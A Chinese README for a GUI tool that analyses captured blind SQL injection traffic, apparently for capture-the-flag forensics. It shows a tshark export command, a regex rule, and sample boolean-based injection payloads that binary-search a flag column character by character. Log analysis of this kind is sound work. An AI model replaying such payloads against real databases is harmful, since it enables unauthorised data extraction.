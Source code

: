 sql盲注日志分析工具GUI版本

tshark -r blindsql.pcapng   -Y  "http.request.line" >1.txt 



![demo](./demo.png)

导出sql日志后，选择合适正则分析即可，正则要根据实际情况修改。

正则规则：要把倒数第一个数和倒数第三个数用括号括起来

例如：ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), **1**, 1))>**100**  正则提取出 1  和   100

![demo2](./demo2.png)



```php
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 1, 1))>100
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 1, 1))>200
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 1, 1))>150
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 1, 1))>125
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 1, 1))>112
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 1, 1))>106
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 1, 1))>103
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 1, 1))>101
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 1, 1))>102
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 1, 1))>102
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 2, 1))>100
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 2, 1))>200
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 2, 1))>150
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 2, 1))>125
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 2, 1))>112
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 2, 1))>106
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 2, 1))>109
ascii(substr(((select concat_ws(char(94), flag)  from db_flag.tb_flag  limit 0,1)), 2, 1))>108
```

[参考项目](https://github.com/sqlsec/Sqlmap_Plaintext)